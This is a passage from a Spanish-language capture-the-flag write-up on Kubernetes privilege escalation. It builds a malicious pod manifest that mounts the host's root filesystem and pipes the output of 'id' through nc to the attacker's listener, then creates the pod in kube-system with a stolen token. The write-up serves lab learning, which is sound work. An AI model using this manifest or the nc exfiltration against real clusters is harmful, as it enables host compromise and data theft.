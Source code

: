 ````bash
* [Eight Ways to Create a Pod](https://www.cyberark.com/resources/threat-research-blog/eight-ways-to-create-a-pod).
* [Bad Pods: Kubernetes Pod Privilege Escalation](https://labs.bishopfox.com/tech-blog/bad-pods-kubernetes-pod-privilege-escalation).
* Y otros que perdi en el camino pensando que no me servian (pero estoy casi seguro que si).

Y finalmente este:

* [Attacking Kubernetes through Kubelet](https://labs.f-secure.com/blog/attacking-kubernetes-through-kubelet/).

> Me quedo con este ultimo porque es sencillo de leer y además fue con el que me pare a pensar sobre que estaba haciendo y con el que finalmente logre crear cositas maliciosas...

...

## Generamos <u>POD malicioso</u> [📌](#malicious-pod) {#malicious-pod}

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/unobtainium/338google_access2THEnodes.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

Ese archivo `.yaml` genera un **pod** que cuando se crea nos devuelve una **Reverse Shell** (además de montar la raíz del sistema (`/`) en una ruta llamada `/host`).

Sencillito, nos copiamos ese texto y creamos el archivo `.yaml` con nuestros comandos, para confirmar que el sistema **host** tiene `nc`, vamos a decirle que nos envíe el resultado del comando `id` a nuestro listener:

```yml
apiVersion: v1
kind: Pod
metadata:
  name: test
spec:
  containers:
  - name: busybox
    image: busybox:1.29.2
    command: ["/bin/sh"]
    args: ["-c", "id | nc 10.10.14.146 4435"]
    volumeMounts:
    - name: host
      mountPath: /host
  volumes:
  - name: host
    hostPath:
      path: /
      type: Directory
```

Ahora le indicamos que nos cree el **pod** según el contenido del archivo `.yaml`:

```bash
<devnode>$ ./kubito -n kube-system --token $TOKEN apply -f aaa.yaml 
pod/test created
```

Validamos si se creó:

```bash
<devnode>$ ./kubito -n kube-system --token $TOKEN get pods
NAME                                  READY   STATUS             RESTARTS   AGE
...
test                                  0/1     ErrImagePull       0          6s
````